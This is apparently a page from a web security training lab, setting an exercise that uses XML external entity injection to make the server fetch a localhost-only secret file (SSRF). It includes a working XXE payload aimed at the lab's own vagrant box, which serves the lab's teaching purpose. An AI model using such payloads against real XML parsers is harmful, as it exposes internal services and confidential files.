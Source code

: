 ```yaml
---
title: "SSRF"
weight: 45
---
```


{{% notice note %}}
We will do these exercises on the Basic XXE (`/basic-xxe.do`) page.
{{% /notice %}}

Server-Side Request Forgery (SSRF) is easily accomplished when combined with XXE.

I have configured nginx on the vagrant box to only allow the localhost access to the `http://localhost:3333/secret.txt` file. Using SSRF see if you can read the contents.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:3333/secret.txt">]>

<doc>&xxe;</doc>
```

![](/static/img/secret.png)
